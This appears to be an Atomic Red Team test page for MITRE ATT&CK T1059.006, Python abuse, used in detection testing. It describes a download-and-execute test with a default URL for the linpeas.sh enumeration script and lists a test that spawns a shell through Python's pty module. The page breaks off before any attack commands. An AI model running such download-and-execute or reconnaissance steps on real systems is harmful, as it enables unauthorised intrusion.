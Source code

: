 # T1059.006 - Command and Scripting Interpreter: Python

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/006)

<blockquote>Adversaries may abuse Python commands and scripts for execution. Python is a very popular scripting/programming language, with capabilities to perform many functions. Python can be executed interactively from the command-line (via the <code>python.exe</code> interpreter) or via scripts (.py) that can be written and distributed to different systems. Python code can also be compiled into binary executables.

Python comes with many built-in packages to interact with the underlying system, such as file operations and device I/O. Adversaries can use these libraries to download and execute commands or other scripts as well as perform various malicious behaviors.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Execute shell script via python's command mode arguement](#atomic-test-1---execute-shell-script-via-pythons-command-mode-arguement)

- [Atomic Test #2 - Execute Python via scripts](#atomic-test-2---execute-python-via-scripts)

- [Atomic Test #3 - Execute Python via Python executables](#atomic-test-3---execute-python-via-python-executables)

- [Atomic Test #4 - Python pty module and spawn function used to spawn sh or bash](#atomic-test-4---python-pty-module-and-spawn-function-used-to-spawn-sh-or-bash)

<br/>

## Atomic Test #1 - Execute shell script via python's command mode arguement

Download and execute shell script and write to file then execute locally using Python -c (command mode)

**Supported Platforms:** Linux

**auto_generated_guid:** 3a95cdb2-c6ea-4761-b24e-02b71889b8bb

#### Inputs:

| Name              | Description                                                                                                                       | Type   | Default Value                                                                 |
| ----------------- | --------------------------------------------------------------------------------------------------------------------------------- | ------ | ----------------------------------------------------------------------------- |
| script_url        | Shell script public URL                                                                                                           | string | https://github.com/carlospolop/PEASS-ng/releases/download/20220214/linpeas.sh |
| payload_file_name | Name of shell script downloaded from the script_url                                                                               | string | T1059.006-payload                                                             |
| executor          | FreeBSD or Linux shell                                                                                                            | string | sh                                                                            |
| script_args       | Arguments to check for system stats, available software, process details, environment paths, open sockets, and interesting files. | string | -q -o SysI, Devs, AvaSof, ProCronSrvcsTmrsSocks, Net, UsrI, SofI, IntFiles    |

#### Attack Commands: Run with `sh`!
